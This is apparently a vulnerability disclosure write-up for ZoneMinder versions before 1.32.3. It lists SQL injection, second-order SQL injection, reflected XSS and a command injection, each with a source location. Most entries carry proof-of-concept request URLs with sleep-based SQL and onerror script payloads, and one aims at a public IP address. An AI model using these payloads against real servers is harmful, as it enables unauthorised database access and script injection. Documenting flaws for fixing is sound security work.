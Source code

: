 ﻿# zoneminder vul before v1.32.3

标签（空格分隔）： 0day

---

The following vulnerability information comes from the zoneminder release version is probably 1.32.0, the code structure has changed in 1.32.3, some of the code has changed, but the following vulnerabilities have not been fixed, need to find in 1.32.3 Corresponding code location and not absolutely the following description location


# skins/classic/views/events.php line 44 sql injection

```
skins/classic/views/events.php line 44
```

![image.png-227.7kB][1]

```
parameter $_REQUEST['filter'] from function parseFilter

includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']

in 1.32.3,This part of the variable is changed to $terms[$i]['cnj'] and the terms are from $filter['Query']['terms'] in line 1035
```
![image.png-98.7kB][3]

in the above figure parameter countSql or eventsSql can be injected

poc in 1.32.3
```
index.php?view=events&page=1&filter[Query][terms][0][attr]=MonitorId&filter[Query][terms][0][op]=%3D&filter[Query][terms][0][val]=1&filter[Query][terms][0][cnj]=1%2b1)and%20sleep(3)%23
```

The following information is the same, you need to adapt the corresponding version.


![1.png](1.png)


# sql query error Reflected xss

when sql query error, sql error and message will be displayed without any validated, sanitised or output encoded.

```
includes/database.php line 120
```
![image.png-112.8kB][4]

if sql query without any validated, sanitised or output encoded and can be modifyed, it will lead to xss vulnerability.

```
https://95.143.216.108/zm/index.php?view=events&page=1&filter[terms][0][attr]=MonitorId&filter[terms][0][op]=%3D&filter[terms][0][val]=1&filter[terms][0][cnj]=1432%3Cimg/src=/%20onerror=alert`1`%3E
```
![image.png-133.7kB][5]

# skins/classic/views/control.php line 35 second order sqli

control.php line 35 

parameter `$groupSql` is detected from the database and directly spliced into the sql query statement.

![image.png-143.7kB][6]

from `includes/action.php line 748 $monitors` insert into database

![image.png-273.6kB][7]

first insert evil statement into database and select it to sql injection

poc
```
Step1:
index.php?action=group

newGroup[MonitorIds][]=1&newGroup[MonitorIds][]=2') or sleep(3)#&newGroup[Name]=132

Step2:
http://127.0.0.1/zoneminder/www/?view=control&mid=1&group={groupid}
```
Normal time
![3.png](3.png)

injected time
![4.png](4.png)

# skins/classic/views/controlcap.php Reflected xss

Most of the variables below controlcap.php are not filtered. This variable is passed directly from the mid.

![image.png-508.9kB][8]

poc
```
?view=controlcap&newControl[MinTiltRange]=2333%22/%3E%3Cimg/src=/%20onerror=alert(1)%3E
```
![5.png](5.png)
# includes/functions.php daemonControl command injection

![image.png-92.9kB][9]

# ajax/status.php line 276 orderby sql injection

![image.png-157.5kB][10]

poc
```
http://127.0.0.1/zoneminder/www/?request=status&entity=monitor&element=id&id=1&sort=123
```
Normal time
![6.png](6.png)

injected time
![7.png](7.png)

# ajax/status.php line 393 sql injection

there is two sql injection in `ajax/status.php line 393 and line 406`

![image.png-355.7kB][11]

```
includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']
```
![image.png-98.7kB][3]
```
index.php?request=status&entity=nearevents&element=id&id=13&layout=text&filter[Query][terms][0][cnj]=233)%20||1=1%23
```
![8.png](8.png)

  [1]: http://static.zybuluo.com/LoRexxar/ufoe8ar8rbq8nh505anfeiai/image.png
  [2]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png
  [3]: http://static.zybuluo.com/LoRexxar/l8hgggewmbgowwxni3bdtffb/image.png
  [4]: http://static.zybuluo.com/LoRexxar/ignq5yfbbpblxz0wbak2uopc/image.png
  [5]: http://static.zybuluo.com/LoRexxar/uot1uzz7w8dqh10ucvs2u1ou/image.png
  [6]: http://static.zybuluo.com/LoRexxar/jgjix7qr8cmsrvfme8qpk57z/image.png
  [7]: http://static.zybuluo.com/LoRexxar/opgka8vbesefdh664yjfvr9n/image.png
  [8]: http://static.zybuluo.com/LoRexxar/4ra29cgr35a6tr4zarudua48/image.png
  [9]: http://static.zybuluo.com/LoRexxar/6bcj24neh6rubbyx547n25ps/image.png
  [10]: http://static.zybuluo.com/LoRexxar/gvvxxgmkk5g1bn425tva31tz/image.png
  [11]: http://static.zybuluo.com/LoRexxar/luo7z0r5w7r8ddi3rsro8gar/image.png
  [12]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png